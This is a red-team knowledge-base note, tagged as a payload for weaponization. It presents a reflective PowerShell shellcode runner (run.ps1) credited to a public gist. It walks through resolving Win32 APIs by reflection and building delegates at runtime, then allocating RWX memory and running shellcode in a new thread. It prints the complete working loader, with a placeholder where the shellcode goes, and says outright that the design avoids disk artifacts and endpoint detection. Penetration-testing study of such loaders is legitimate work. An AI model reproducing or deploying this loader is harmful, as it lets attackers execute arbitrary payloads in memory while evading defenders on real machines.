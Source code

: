 ```yaml
---
aliases:
  - run.ps1
tags:
  - 💣Payload
primary categories:
  - "[[01 - Development]]"
  - "[[01 - Penetration Test]]"
  - "[[01 - Red Team]]"
secondary categories:
  - "[[02 - PowerShell]]"
  - "[[02 - Weaponization]]"
  - "[[02 - Payload Engineering]]"
type: Payload
---
```

# [[Reflective PowerShell Shellcode Runner]]

***
## Overview

This reflective PowerShell shellcode runner template provides a stealthier alternative to traditional in-memory payload delivery by avoiding the use of disk-backed artifacts. A common method of executing unmanaged code in PowerShell is through the `Add-Type` cmdlet, which compiles and stores .NET assemblies to disk—a behavior that can trigger detection from endpoint monitoring tools. In contrast, this template performs all operations entirely in memory, eliminating the reliance on Add-Type and minimizing forensic evidence. This payload template is largely based on [`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) by [_braaaax_](https://github.com/braaaax).

The payload follows a three-step reflective injection process, all without relying on `Add-Type` or writing any assemblies to disk:

### 1. Dynamic Win32 API Resolution

Using .NET reflection, the script locates function pointers for native Win32 APIs like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` by querying loaded modules and calling `GetProcAddress`:

```powershell
# Function to dynamically resolve the address of a Win32 API function in memory
function LookupFunc {
        Param ($moduleName, $functionName)

		# Get the 'UnsafeNativeMethods' type from the loaded System.dll assembly
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

		# Filter out the 'GetProcAddress' method
	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

		# Invoke GetProcAddress(GetModuleHandle($moduleName), $functionName)
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```

### 2. Delegate Construction for API Invocation

Since .NET requires strong typing for API calls, the script uses `System.Reflection.Emit` to define method signatures at runtime. This allows for calling unmanaged APIs using the correct parameter and return types:

```powershell
# Function to dynamically generate a delegate type for a given API function signature
function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

		# Define a dynamic in-memory assembly to hold the delegate type
        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		# Define the constructor required for a delegate type
		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		# Define the 'Invoke' method for the delegate (used to call the function)
		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

		# Create and return the delegate type
        return $type.CreateType()
}
```

### 3. Allocate Memory, Inject Shellcode, and Invoke Execution

With the shellcode hard coded in a byte array, the script allocates *RWX* memory, copies the payload into it, and creates a new thread to execute it. The entire process is conducted using delegates and Win32 APIs resolved in-memory:

```powershell
# Replace this with actual shellcode bytes
[Byte[]] $buf = <shellcode-buffer-byte-array>

# Allocate memory
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

# Copy shellcode into allocated memory
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Execute shellcode in new thread
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

# Wait for thread to complete
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

## File Contents

### `run.ps1`

```powershell
function LookupFunc {
        Param ($moduleName, $functionName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
}

[Byte[]] $buf = <shellcode-buffer-byte-array>

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***

## Resources

| Hyperlink                                                                              | Info                                     |
| -------------------------------------------------------------------------------------- | ---------------------------------------- |
| [_braaax_/`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) | GitHub Gist page for payload by *braaax* |

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
